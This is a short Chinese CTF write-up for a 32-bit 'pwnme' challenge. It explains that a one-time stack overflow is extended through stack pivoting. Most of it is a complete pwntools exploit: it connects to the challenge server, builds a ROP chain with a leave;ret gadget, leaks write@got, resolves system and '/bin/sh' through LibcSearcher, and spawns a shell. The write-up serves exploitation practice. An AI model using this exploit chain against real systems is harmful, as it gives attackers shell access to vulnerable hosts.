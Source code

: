

## 4.pwnme

显然栈溢出...

发现他有一个count在计数,只允许溢出一次,但是我们还需要leak啥的一次肯定不够。这时候就想到了栈迁移。

关于栈迁移原理不多做讲解。。。反正就是可以控制ebp，带着leave ret的gadget就可以控制eip来执行我们自己的东西了

```python
from pwn import *
from LibcSearcher import *
from time import sleep

s = remote("119.23.206.23",10003)
elf = ELF("./pwnme/pwnme")

main = 0x080485E4
buf = elf.bss() + 0x500
buf2 = elf.bss() + 0x400
leave_ret = 0x08048498
pop1 = 0x080483a1
pop3 = 0x0804866d
pop_ebp = 0x0804866f
write_got = elf.got['write']
write_plt = elf.plt['write']
read_plt = elf.plt['read']

# gdb.attach(s,"b *0x08048498")
padding = 'a'*(4*4)+p32(buf)+p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf)+p32(0x100)
payload = padding
raw_input(">")
s.sendline(payload)
payload = p32(buf2)+p32(write_plt)+p32(pop3)+p32(1)+p32(write_got)+p32(4)
payload += p32(read_plt)+p32(pop3)+p32(0)+p32(buf2)+p32(0x100)+p32(pop_ebp)+p32(buf2)+p32(leave_ret)
s.sendline(payload)
s.recvuntil("just PWN me\n")

write_real = s.recvn(4)
write_real = u32(write_real)
print hex(write_real)

libc = LibcSearcher('write',write_real)

offset = write_real-libc.dump('write')

system = libc.dump('system')+offset
bin_sh = libc.dump('str_bin_sh')+offset

payload = p32(buf2)+p32(system)+p32(pop3)+p32(bin_sh)

s.sendline(payload)
s.interactive()
```
